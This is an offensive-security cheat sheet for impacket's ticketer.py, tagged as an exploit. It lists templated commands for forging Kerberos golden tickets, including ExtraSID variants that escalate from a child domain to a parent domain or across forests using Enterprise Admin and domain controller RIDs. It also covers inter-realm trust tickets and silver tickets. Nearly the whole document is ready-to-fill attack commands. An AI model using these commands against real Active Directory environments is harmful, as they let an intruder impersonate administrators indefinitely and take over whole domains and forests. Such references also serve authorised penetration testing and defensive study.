 # ticketer.py (imp)

% impacket-kerberos, windows, kerberos, 88, ticket forgery

#plateform/linux #target/local  #cat/ATTACK/EXPLOIT

## desc
```
Creates a Kerberos golden/silver tickets 
```


## golden ticket  
```bash
ticketer.py -nthash <krbtgt_hash> -domain <domain_fqdn> -domain-sid <domain_sid> -user-id <user_rid|500> <user|administrator>
```

## golden + ExtraSID (parent-child)
if user = administrator no need of -user-id
```bash
ticketer.py -nthash <krbtgt_nthash>  -domain-sid <domain_sid> -domain <domain_fqdn> -extra-sid <dst_domain_sid>-<rid|519> -user-id <user_rid> <user|jubeaz>
```

## golden + ExtraSID (parent-child) (dc account)
```bash
ticketer.py -nthash <krbtgt_nthash> -domain-sid <domain_sid> -domain <domain_fqdn> -extra-sid <dst_domain_sid>-<rid|516> -user-id <dc_rid>  '<dc_name>$'
```

## golden + ExtraSID (cross-forest)
if user = administrator no need of -user-id
```bash
ticketer.py -nthash <krbtgt_nthash>  -domain-sid <domain_sid> -domain <domain_fqdn> -extra-sid <dst_domain_sid>-<rid> -user-id <user_rid> <user>
```

## golden Inter-Realm TGT    
    export KRB5CCNAME=/tmp/jubeaz.ccache   
    getST.py -k -no-pass -spn <cifs>/<dc_fqdn> <domain_fqdn>/<user>@<domain_fqdn> -debug
```bash
ticketer.py -nthash <trust_nthash> -domain-sid <domain_sid> -domain <domain_fqdn> -extra-sid <dst_domain_sid>-<RID|519>" -spn "krbtgt/<dest_domain_fqdn>" -user-id <user_rid> <user|jubeaz>
```

## silver ticket
```bash
ticketer.py -nthash <service_nthash> -domain-sid <domain_sid> -domain <domain_fqdn> -spn <svc>/<target_fqdn> -user-id <user_rid|500> <user|administrator>
```